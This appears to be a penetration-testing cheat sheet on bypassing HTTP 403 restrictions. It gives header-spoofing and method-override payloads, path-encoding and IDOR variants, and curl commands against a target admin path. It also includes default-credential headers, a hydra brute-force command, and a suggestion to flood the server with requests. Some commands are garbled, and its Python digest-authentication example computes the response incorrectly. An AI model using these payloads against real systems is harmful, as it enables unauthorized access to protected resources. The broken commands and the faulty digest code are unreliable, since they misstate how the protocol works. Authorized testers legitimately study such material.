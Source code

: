 ## Bypassing Forbidden Responses (HTTP 403)

To bypass a forbidden response (HTTP 403), you can try various techniques such as:

- **Changing the HTTP method** to GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED or HACK.
- **Changing user agent to:** `User-Agent: Googlebot/2.1 (+http://www.google.com/bot.html)`
- **Overriding the HTTP method** using headers like:
    - `X-HTTP-Method-Override: PUT`
	- `X-HTTP-Method-Override: GET`
	- `X-Original-Method: GET`
	- `X-HTTP-Method: POST`
- **Fuzzing HTTP headers** by changing the Host header or using proxy headers like:
    - `X-Forwarded-For: 127.0.0.1`
	- `Origin: <target>`
	- `X-Host: <trusted_host>`
- **Path fuzzing** by encoding (`%61dmin`) or using different cases (`aDmiN`), or appending file extensions like `admin.json`.
- **Bypass 403 Forbidden** (with encoded special charecter) and curl tool:
    - `curl -i https:%2F%2Ftarget.com/admin -H "X-Original-URL: /admin"`
	- `curl -i https3A%2F%2Ftarget.com/admin -X POST -H "X-Custom-IP-Authorization: 127.0.0.1"`
	- `curl curl -H “X-Forwarded-For: 1.1.1.1” <target>`
	- `curl -H “Host: another-allowed-host.com” --resolve “sub.target.com:443:<targetIP>” <target>`
- **Appending slash (/) or backslash (\)**: `/api//users` | `/api\\users`
- **Trying different protocol versions** like HTTP/1.0 or HTTP/2.0.
- **Directly contacting the IP or CNAME** of the domain.
- **Stressing the server with common GET requests** (Many requests).
- **Changing the protocol** from HTTP to HTTPS or vice versa.
- **Bypass on /api/v1/user/id**:
    - `/api/v1/user/id.json`
    - `/api/v1/user/id?`
    - `/api/v1/user/id/`
    - `/api/v2/user/id`
    - `/api/v1/user/id&accountdetail`
    - `/api/v1/user/yourid&victimid`
    - `X-Original-URL: /api/v1/user/id/`
- **Checking the archive.org web archive** for past accessibility of the file:
    - [Web Archive Search](https://web.archive.org/cdx/search/cdx?url=*.example.com&output=text&fl=original&collapse=urlkey)
    - *Note*: Replace `*.example.com` with your target.
- **Parameter manipulation** by changing, adding, or removing URL parameters:
    - **Manipulation by changing**: change the sort parameter from ascending price order to descending price order:
      - `https://example.com/products?category=electronics&sort=price_asc` → `?sort=price_desc`
    - **Adding URL parameter**: add a new parameter called brand to the URL:
      - `https://example.com/products?category=electronics&sort=price_asc&brand=samsung`
    - **Removing URL parameter**: remove the brand parameter:
      - `https://example.com/products?category=electronics&sort=price_asc`
- **Brute-forcing using common credentials** or trying basic, digest, and NTLM authentication (e.g., `admin:admin` | `admin:password` | `test:test`):
    - **Common credentials**: 
      - `Authorization: Basic YWRtaW46YWRtaW4=`  # admin:admin to base64.
    - **NTLM**:
      - `hydra -l admin -P /path/to/passwords.txt ntlm://<TargetIP>`
    - **Digest Authentication**: The client sends an HTTP request to the server like this:
        - `GET /protected-resource HTTP/1.1`
        - `Host: example.com`
        - `Response: HTTP/1.1 401 Unauthorized`
        - `WWW-Authenticate: Digest realm="example.com", qop="auth", nonce="dcd98b7102dd2f0e8b3c5d8b1f6f83f7f2a6c2d89", opaque="5ccc069c403ebaf9f0171e9517f40e41"`
        - **nonce** is a random value sent by the server to ensure that the requests aren't repeated.
        - **opaque** is a fixed encrypted value.
        - **Authorization**:
            - `Digest username="admin", realm="example.com", qop=auth, algorithm=MD5, nonce="dcd98b7102dd2f0e8b3c5d8b1f6f83f7f2a6c2d89", uri="/protected-resource", response="c1d2d4e45d7ad670bb7177b26406d75b", opaque="5ccc069c403ebaf9f0171e9517f40e41"`
            - **username** (Username).
            - **realm** (DomainName).
            - **password** (Password).
            - **nonce** (Random value sent by the server).
            - **uri** (The URL the client wants to access).
            - **response** (The outputs from combining all of the above)
        
        #### How are all these values combined together?
        - `<username>:<realm>:<password>` `<nonce>:<uri>`
        
        ```python
        import hashlib
        
        username = "admin"
        realm = "example.com"
        password = "password123"
        nonce = "dcd98b7102dd2f0e8b3c5d8b1f6f83f7f2a6c2d89"
        uri = "/protected-resource"
        
        data = f"{username}:{realm}:{password}\n{nonce}:{uri}"
        md5_hash = hashlib.md5(data.encode()).hexdigest()
        
        print(md5_hash)  # The output will be the response.
        ```

